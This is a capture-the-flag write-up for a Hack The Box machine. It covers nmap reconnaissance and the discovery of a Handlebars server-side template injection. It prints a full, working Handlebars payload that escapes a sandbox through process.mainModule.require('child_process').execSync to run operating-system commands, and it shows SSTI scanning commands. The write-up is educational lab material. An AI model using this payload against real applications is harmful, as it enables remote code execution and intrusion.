

---
tags:
  - Linux
  - HTTP
  - SSTI
  - Sandbox escape
---

... is a medium HTB machine which offers a `http` service vulnerable to Server-Side-Template-Injection (`SSTI`). After identifying the templating engine, the basic PoC does not result in RCE, as the code is executing in a sandboxed environment. The sandbox can be escaped by using a deprecated function of the object `process`, which enables the payload to work.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    Node.js (Express middleware)
|_http-title:  Bike 
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
This is a very standard set of ports in any HTB machine, as it probably includes a `http` service mis-configuration which enables us to connect via `ssh` with the found credentials.

When visiting the web page in `firefox`, i am greeted with a form which asks for a email. When inputting anything, another text appears with `We will contact you at: anything`. When any user input is reflected upon the web page, you might look into `XSS` (inject custom `javascript` which gets executed) attacks or `SSTI` (the input is being used in a templating engine, inject executable logic) attacks.


This shows that `XSS` will probably not work, as the `<b>` tags are reflected, and do not turn the `anything` bold.

### Initial Exploitation
To test for `SSTI` the typical probing payload is `{{7*7}}`. This returns an parser error. This does't automatically mean that `SSTI` exists, so i test the payload `HE{{LL}}LLO`, and it simply returns `HELLO` without the two L's in the middle.
As `SSTI` is probably present, i look for `Node.js` templating engines, as the `nmap` scan has identified the backend framework to be that. I have looked at [this](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/JavaScript.md) page from the `PayloadsAllTheThings` github and have found out that the `{{this}}` payload displays `[object Object]` on the screen, which confirms that `Handlebars` is the templating engine which is used. This is the payload which should give me code execution:
```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
This payload does not seem to work, as i receive an 
`require is not defined` error. This probably means that the code which is running inside this PoC is in an sandboxed environment, and is not able to access global objects such as `require`.

After looking into the references, i stumble across [this](https://web.archive.org/web/20260207143828/https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html) blog post, which used `return JSON.stringify(process.env);` instead of the `child_process` payload, and it worked! This tells me that the `process` object is accessible, but `require` is not.
I google the [documentation of process](https://nodejs.org/api/process.html) and look through its functions. A deprecated function called `process.mainModule` looks interesting. After clicking it, it tells me that it `"provides an alternative way of retrieving require.main"`.  It is currently not possible to invoke `require` as it is not included in the current scope. But maybe `require` is included in the scope of the main module. To test this, the payload below shows the exact same payload, but with `process.mainModule` before the actual payload:
```js
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
And this worked. It is now possible to insert arbitrary operating system commands and read the flag located at `/root/flag.txt`.

#### Automated Tools
There are a few automated tools which detect-/ and or exploit `SSTI`.
The first is `tinja`. This is how to use it in this scenario:
```bash
tinja url -u "http://$IP" -d "email=123&action=Submit"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: url to attack
# -d: data to provide in a POST request
```

The output tells us that there is a template injection with a very low certainty. It could not determine the templating engine. Its primary purpose is detection, and not abuse.

Another tool is `sstimap`, and it can be used like this:
```bash
sstimap -u "http://$IP" -d "email=123&action=Submit"
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -u: url to attack
# -d: data to provide in a POST request
```

This seemingly tried more than `tinja`, but ultimately failed. I looked into the options, and i can increase the risk level using `-l 5`, but that does't make sense, as i have looked through its modules using `sstimap --module list`, and `handlebars` was not in there. Therefore, it can not identify `handlebar` SSTI vulnerabilities ([Proof here](https://github.com/vladko312/SSTImap/issues/13)).